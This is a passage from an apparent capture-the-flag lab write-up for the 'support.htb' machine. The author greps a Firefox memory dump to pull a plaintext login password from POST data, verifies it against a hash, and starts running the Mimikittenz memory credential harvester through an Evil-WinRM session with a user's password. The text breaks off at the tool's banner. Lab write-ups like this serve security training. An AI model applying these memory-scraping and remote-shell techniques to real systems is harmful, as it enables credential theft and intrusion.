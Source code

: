 

Now I'll look for any POST requests in memory using `grep` and the
format I found above:



    root@kali# grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=' firefox.exe_190823_025430.dmp 
    login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=



The options on `grep` are:

-   `-a` - Process a binary file as if it were text.
-   `-o` - Print only the matched (non-empty) parts of a matching line
-   `-E` - Interpret PATTERNS as extended regular expressions

I'll use a regex where I look for a basic email address as the
`login_username`, and a 1-50 character password.

I've got a password there. I can check, and it does match the hash from
the source code:



    root@kali# echo -n '4dD!5}x/re8]FBuZ' | sha256sum 
    91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040  -



#### MimiKittenz

[Mimikittenz](https://github.com/putterpanda/mimikittenz) is a tool that
will look into the memory of user space processes and look for
passwords. By default, it checks IE, Chrome, and Firefox for POST
requests that match common webmail, social media, and other sites. I can
drop it in the scripts directory for my `evil-winrm` connection, then
read it into my session, and run it. But it won't find anything:



    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'                                                                                                                           

    Info: Starting Evil-WinRM shell v1.6

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz.ps1
    *Evil-WinRM* PS C:\Users\Chase\Documents> menu

       ___ __ __  ____  _
      /  _]  |  ||    || |
     /  [_|  |  | |  | | |
    |    _]  |  | |  | | |___
    |   [_|  :  | |  | |     |
    |     |\   /  |  | |     |
    |_____| \_/  |____||_____|
